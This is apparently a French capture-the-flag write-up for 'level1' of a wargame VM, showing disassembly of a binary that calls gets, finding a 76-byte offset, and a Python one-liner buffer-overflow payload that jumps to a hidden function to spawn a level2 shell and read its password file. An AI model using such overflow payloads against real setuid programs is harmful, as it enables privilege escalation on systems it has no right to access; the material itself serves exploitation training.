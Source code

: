 ## Démarche
<!-- - La commande `readelf -r level1` nous donne des informations à propos du programme elf `level1` :
  
    ```
    Relocation section '.rel.dyn' at offset 0x2c0 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049788  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
    080497c0  00000605 R_386_COPY        080497c0   stdout

    Relocation section '.rel.plt' at offset 0x2d0 contains 5 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049798  00000107 R_386_JUMP_SLOT   00000000   gets
    0804979c  00000207 R_386_JUMP_SLOT   00000000   fwrite
    080497a0  00000307 R_386_JUMP_SLOT   00000000   system
    080497a4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
    080497a8  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main
    ``` -->

- La commande `objdump -d level1` nous permet de connaitre la constitution du programme :
  - On remarque une fonction `run` en plus du `main`:
     > 08048444 <run>:
  - Ainsi qu'un appel de `gets` dans le `main` : 
    >  8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>

    Cette fonction est déconseillée :
    `man gets`
    > SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds
     checking, and the inability for the calling program to reliably determine
     the length of the next incoming line, the use of this function enables mali-
     cious users to arbitrarily change a running program's functionality through
     a buffer overflow attack.  It is strongly suggested that the fgets() func-
     tion be used in all cases.  (See the FSA.)

- Dans gdb, avec peda (`source /tmp/peda/peda.py`- cf level0)
  - `disass main` :
    ```
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave
    0x08048496 <+22>:	ret
     ```
  - `disass run` :
    ```
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret
    End of assembler dump.
    ```

  - En lançant le debug avec un breakpoint sur le main (`br main`) puis en sautant jusqu'à l'adresse de la fonction run (`jump *0x08048444`), on obtient l'ouverture d'un shell avec les droits level1 :
    ```
    Good... Wait what?
    [New process 4468]
    process 4468 is executing new program: /bin/dash
    $ whoami
    [New process 4469]
    process 4469 is executing new program: /usr/bin/whoami
    level1
    $ [Inferior 4 (process 4469) exited normally]
    ```
    <!-- - `(python -c 'print("\xef\xbe\xad\xde")' ; cat) | ./level1` -->

  - Pour exploiter la faille de la fonction gets, nous devons trouver quelle taille permet d'overflow le buffer :
    - On utilise une  longue chaîne de caractères générée par notre fonction `string_generate`  puis en donnant en paramètre l'adresse de segmentation fault, notre programme `get_offset` nous envoie la taille de l'offset: 
    ```bash
    Breakpoint 1, 0x08048480 in main ()
    (gdb) c
    Continuing.
    aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
    Program received signal SIGSEGV, Segmentation fault.
    0x74747474 in ?? ()

    python3 get_offset.py 0x74747474
    offset = 76
	```
  > Note: Nous avons créé notre propre programme pour trouver la valeur de l'offset, mais il existe des outils permettant de le faire. Pour les prochains levels nous utiliserons l'outil `pattern` de `peda`.


- Dans la Vm :
  - générer une chaine de 76 caractères suivie de l'adresse de la fonction `run` (0x08048444 inversée car système little endian) et la passer sur l'entrée standard du programme :
    `(python -c 'print "A"*76+"\x4a\x84\x04\x08"' ; cat) | ./level1`

    Un nouvel shell est exécuté avec les droits user level2 :
      ```
      Good... Wait what?
      whoami
      level2
      pwd
      /home/user/level1
      cd ../level2
      pwd
      /home/user/level2
      ls
      level2
      ls -la
      total 17
      dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
      dr-x--x--x  1 root   root    340 Sep 23  2015 ..
      -rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
      -rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
      -rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
      -rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
      -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
      cat .pass
      53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
      ```

<br>
----
## Ressources

- [Return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [Buffer Overflow Attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)
- [Managing inputs for payload injection](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
- [Check Endian system](https://serverfault.com/questions/163487/how-to-tell-if-a-linux-system-is-big-endian-or-little-endian)


<!-- - [PLT call in ELF programm](https://stackoverflow.com/questions/25667205/what-exactly-does-putsplt-mean) -->
<!-- - [RELRO - Memory Corruption Mitigation Technique](https://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html) -->
<!-- - [Mémoire - protection : RELRO](https://www.root-me.org/fr/Documentation/Applicatif/Memoire-protection-RELRO) -->

